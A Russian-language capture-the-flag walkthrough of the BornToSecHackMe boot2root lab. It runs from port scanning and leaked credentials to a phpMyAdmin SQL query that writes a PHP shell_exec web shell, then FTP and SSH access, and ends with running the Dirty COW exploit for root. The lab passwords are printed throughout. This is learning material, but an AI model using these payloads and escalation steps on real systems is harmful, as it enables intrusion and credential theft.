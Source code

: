 ## Поиск IP адреса нашей виртуальной машины на пк.

``
ifconfig - для поиска нужного IP адреса на пк. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/imgs/img1.png)

## Прогонка портов через nmap для получения сведений о нужном нам адресе.

``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh
Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/imgs/img2.png)
``172.16.101.128 нужный нам IP`` 

## Проверка всех ссылок по адресу.
``git clone https://github.com/v0re/dirb.git``
### Установка dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``
## Проверка ссылок на форуме.
После того как зашли на форум, находим ответвление 'Probleme login ?'.
Пройдясь по логам находим две строки:

### Первый ввод предположительно были перепутаны строки для логина и пароля.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/imgs/img3.png)

### Во втором ввод логина был правильный.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/imgs/img4.png)

## Попытка войти на почту с полученным логином и паролем.
Переходим по ссылке ``https://172.16.101.128/webmail/src/login.php``
При воде пароля ``lmezard`` и пароля ``!q\]Ej?*5K5cy*AJ`` не срабатывает.
Делаем поиск ника ``lmezard`` в гугле :
![
Google info about lmezard. Laurie Mezard
](/imgs/img5.png)
Нам выдало полное имя Laurie Mezard. Пробуем разные варианты для логина.
Нужный нам вариант ``laurie@borntosec.net``.
Входим на мейл ``login: laurie@borntosec.net`` и ``password: !q\]Ej?*5K5cy*AJ``
Полазив по почте находим письмо:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/imgs/img6.png)
Находим пароль и логин для базы данных ``login: root`` и ``password: Fg-'kKXBj87E:aJ$``
## Попытка входа в phpmyadmin.
Переходим по ссылке ``https://172.16.101.128/phpmyadmin/``
С логином и паролем входим в бд.
После поиском по сети находим експлойт для дб.
``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``
Переходим на sqltab в том же окне phpmyadmin в который мы залогинились.
Выполняем скрипт.
Скриптом создали новый темплейт по ссылке ``https://172.16.101.128/forum/templates_c/pokemon.php`` где находим ``lmezard:G!@M6f4Eatau{sF"``.

## Попытка входа по ftp.
Теперь пробуем подключиться по ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``
Вход успешен, смотрим что там находится:
![
README.md
fun
](/imgs/img7.png)
Теперь скидываем файл себе ``get fun ~/boot2root/fun``
В файле куча разной информации, если посмотреть тип файла ``file fun`` узнаем что это архив.
Разархивируем архив ``tar xvf fun``
Получаем целую папку с разными файлами. При просмотре каждого файла пузнаем что
там есть строка с номерным знаком и кусок сишного кода. 
Используем небольшой самописный скрипт который соберет все из файлов, отсортирует и потом создаст новый файл main.c .
``python unpack.py``
``gcc main.c``
``./a.out``
 После запуска получаем :
 ![
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
](/imgs/img8.png)
Шифруем его в SHA-256 и получаем :
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``

## Попытка входа по ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Мы вошли по SSH на сервер.
Теперь нужно узнать что это за сервер что бы правильно нагуглить експлойт для рута.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
С полученными данными делаем поиск в гугле и находим вот эту [ссылку](https://www.exploit-db.com/exploits/40839).
Создаем этот скрипт на сервере, мы сделали это через vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Теперь задаем какой то пароль.
``si firefart``
# Вы под рутом.



